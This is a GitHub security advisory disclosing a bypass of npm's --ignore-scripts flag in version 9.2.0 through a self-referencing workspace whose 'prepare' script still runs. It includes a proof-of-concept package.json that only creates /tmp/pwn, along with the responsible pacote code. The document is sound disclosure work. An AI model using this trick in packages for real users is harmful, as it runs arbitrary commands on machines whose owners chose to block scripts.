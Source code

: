 ```yaml
---
title: 'NPM: Ignore Script Bypass'
severity: Moderate
ghsa_id: GHSA-wr8v-3jqh-9x36
cve_id: null
weaknesses: []
products:
- ecosystem: NPM
  package_name: NPM
  affected_versions: 9.2.0
  patched_versions: No patched versions at this time.
cvss: null
credits:
- github_user_id: scannells
  name: Simon Scannell
  avatar: https://avatars.githubusercontent.com/u/21333136?s=40&v=4
---
```


### Summary
An attacker can craft a malicious package.json file that bypasses the --ignore-scripts security flag. This leads to arbitrary system command execution when a victim executes npm install -–ignore-scripts on the malicious package.

### Severity
Moderate - This vulnerability bypasses  the `--ignore-scripts` option intended to prevent malicious users from executing
arbitrary build scripts.

### Proof of Concept

1. Place the following package.json file into a temporary directory:

```json
{
  "name": "rce-test",
  "dependencies": {
  },
  "workspaces": [
        "."
  ],
  "scripts": {
        "prepare":        "touch /tmp/pwn"
  }
}
```

2. Run npm install –-ignore-scripts in the same directory. 
3. Check if /tmp/pwn has been created

### Further Analysis
When a local directory is listed as a dependency, pacote executes the prepare script even if the --ignore-scripts flag is set. This is because no check is present:

https://github.dev/npm/pacote/blob/a08a9a39bae0ddd73605b0d06bd227897d2f9567/lib/dir.js#L48-L60
```
 return runScript({
        pkg: mani,
        event: 'prepare',
        path: this.resolved,
        stdio,
        banner,
        env: {
          npm_package_resolved: this.resolved,
          npm_package_integrity: this.integrity,
          npm_package_json: resolve(this.resolved, 'package.json'),
        },
      })
    })
```

### Timeline
**Date reported**: 02/20/2023
**Date fixed**: 
**Date disclosed**: 05/21/2023